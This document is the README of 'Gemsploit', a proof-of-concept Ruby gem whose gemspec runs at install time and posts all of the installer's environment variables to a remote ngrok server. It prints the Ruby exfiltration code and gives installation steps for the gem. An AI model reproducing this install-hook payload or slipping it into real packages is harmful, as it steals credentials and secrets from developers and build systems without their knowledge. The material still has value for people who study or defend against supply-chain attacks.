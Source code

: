 # Gemsploit

Proof of concept for ruby bundler exploit. When this gem is installed, it posts all of your ENV files to my server.

## How it works

When a gem is installed, the code block in the `*.gemspec` file is executed. This gem contains a malicious payload to post all of your ENV variables to a remote server when the gem is installed (`$ bundle` or `$ gem install gemsploit`)

```ruby
  require "net/http"
  require "uri"

  uri = URI.parse("http://10cbe90f.ngrok.io/graphql")
  response = Net::HTTP.post_form(uri, ENV.to_h)
```

## Installation

Add this line to your application's Gemfile:

```ruby
gem 'gemsploit'
```

## Usage

Execute:

    $ bundle

Or install it yourself as:

    $ gem install gemsploit